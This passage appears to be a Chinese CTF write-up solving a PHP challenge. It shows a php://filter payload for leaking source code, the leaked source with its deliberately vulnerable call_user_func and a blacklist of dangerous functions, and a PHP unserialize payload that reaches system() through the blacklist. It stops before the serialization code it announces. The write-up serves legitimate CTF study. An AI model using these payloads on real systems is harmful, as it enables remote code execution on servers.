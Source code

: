 3、那我们就尝试读取下当前的目录信息，payload：func=system&p=ls，显示hacking，应该是被过滤掉了，因此我们考虑读取下源码信息，payload：func=file_get_contents&p=php://filter/read=convert.base64-encode/resource=index.php，对获得的字母串进行base64解码，结果如下：

![img](https://img2022.cnblogs.com/blog/2834847/202208/2834847-20220830221155809-130862302.png)

![img](https://img2022.cnblogs.com/blog/2834847/202208/2834847-20220830220820620-1733656961.png)

源码如下：

```python
<?php
    $disable_fun = array("exec","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval","proc_terminate","touch","escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk",  "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce","array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents");
    function gettime($func, $p) {
        $result = call_user_func($func, $p);
        $a= gettype($result);
        if ($a == "string") {
            return $result;
        } else {return "";}
    }
    class Test {
        var $p = "Y-m-d h:i:s a";
        var $func = "date";
        function __destruct() {
            if ($this->func != "") {
                echo gettime($this->func, $this->p);
            }
        }
    }
    $func = $_REQUEST["func"];
    $p = $_REQUEST["p"];

    if ($func != null) {
        $func = strtolower($func);
        if (!in_array($func,$disable_fun)) {
            echo gettime($func, $p);
        }else {
            die("Hacker...");
        }
    }
?>
```

4、在代码里注意到了__destruct()函数，此函数会在类被销毁时调用，那我们如果反序列化一个类，在类里的参数中写上我们要执行的代码和函数，这样的话就会直接调用gettime函数，而不会执行in_array($func,$disable_fun)，那我们就绕过了黑名单的判断，payload：func=unserialize&p=O:4:"Test":2:{s:1:"p";s:2:"ls";s:4:"func";s:6:"system";} ，结果如下：

序列化代码：
